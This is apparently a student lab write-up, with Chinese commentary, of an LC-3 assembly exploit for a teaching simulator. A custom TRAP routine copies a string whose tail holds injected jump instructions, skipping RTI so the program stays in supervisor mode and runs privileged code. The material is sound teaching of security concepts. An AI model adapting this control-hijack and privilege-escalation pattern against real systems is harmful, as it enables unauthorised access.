

# ICS Lab5


## Assembly Code

```assembly        
    .ORIG x3000
        
LEA R0, HACKER
TRAP x30
PUTSP

HACKER
    .FILL x0033
    .FILL x0033
    .FILL x0033
    .FILL x0033
    .FILL x0033
    .FILL x0033
    .FILL x0033
    .FILL x0033
    .FILL x0033
    .FILL x0033
    .FILL x0033
    .FILL x0033
    .FILL x0033
    .FILL x0033
    .FILL x0033
    .FILL x0033
    .FILL x0033
    .FILL x0033
    .FILL x0033
    .FILL x0033
    LD R0, HACK
    JMP R0
    HACK .FILL x4000
    .FILL x0000
        .END


; TRAP x30 子程序
        .ORIG x30
.FILL x930
        .END

        .ORIG x930
ST R0, SAVED_R0
ST R1, SAVED_R1
ST R2, SAVED_R2
LD R1, PROMPT_ADDR
LOOP
LDR R2, R0, x0
STR R2, R1, x0
BRz LEAVE
ADD R0, R0, x1
ADD R1, R1, x1
BR LOOP
LD R0, SAVED_R0
LD R1, SAVED_R1
LD R2, SAVED_R2
LEAVE RTI
PROMPT_ADDR .FILL x032c
SAVED_R0 .BLKW 1
SAVED_R1 .BLKW 1
SAVED_R2 .BLKW 1
        .END

; 检测是否Break the Barrier
        .ORIG x4000
LDI R0, ADDR
LEA R0, WOW
PUTS
HALT
ADDR .FILL x1
WOW .STRINGZ "My favourite musician is Silentroom."
        .END
```
## Description
首先使用子程序将`TRAP x30`指向`x930`处的子程序, 作用是复制字符串到`x032c`处, 在串的末尾编写自定义指令
```assembly
LD R0, HACK
JMP R0
HACK .FILL x4000
```
如此执行`PUTSP`的时候就会跳转到`x4000`处的子程序, 此时绕过了`RTI`, 导致仍处于`Supervisor Mode`, 因此可以正常执行`LDI R0, ADDR`的指令, 从而正常执行下一条指令`PUTS`, 然后输出串`My favourite musician is Silentroom.` 如果这个字符串正常显示, 则表示成功利用了漏洞提权.
## Tests
如图, 串正常输出.
